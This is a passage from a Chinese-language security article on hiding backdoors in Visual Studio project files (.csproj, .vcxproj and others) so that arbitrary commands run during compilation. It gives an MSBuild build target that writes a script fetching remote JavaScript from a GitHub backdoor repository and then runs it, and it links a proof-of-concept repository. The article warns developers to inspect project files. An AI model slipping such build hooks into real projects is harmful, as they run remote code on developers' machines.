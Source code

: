 成功弹出计算器，但无法成功编译文件，手动结束rundll32进程，编译成功，提示rundll32调用错误

**解决方法：**  
写临时js文件,再运行，代码如下：

```
 <Target Name="BeforeBuild">
 <Exec Command="echo GetObject(&quot;script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test&quot;)>1.js"/> 
  </Target>
  <Target Name="AfterBuild">
<Exec Command="1.js"/> 
</Target>

```

演示略

0x04 实际影响
=========

* * *

任意一个c#工程，只要编辑.csproj文件,即可实现在编译过程中执行任意命令。 正如本文开始的演示图，绝大部分人从github上下载代码后，会选择直接编译，即使部分人会注意代码细节，也常常会忽略.csproj文件，并且通过Visual Studio 的操作面板无法获取添加的后门代码。

![Alt text](http://drops.javaweb.org/uploads/images/e28fcaa6ac160cb18bb86f0c88c39e4e747c87f9.jpg)

如果别有用心的人在公开项目的.csproj文件添加了后门代码，后果将不堪设想。希望本文能引起大家对此细节的注意，尤其是开发人员，编译工程前尤其要记得查看.**proj文件的细节。亡羊而补牢，未为迟也。

**Poc地址：**  
[https://github.com/3gstudent/p0wnedShell-DarkVersion](https://github.com/3gstudent/p0wnedShell-DarkVersion)

0x05 补充
=======

* * *

使用Visual Studio中的其他语言也同样可以插入后门：  
**Visual C++：**  
- 修改.vcxproj文件

**Visual Basic：**  
- 修改.vbproj文件

**Visual F#：**  
- 修改.fsproj文件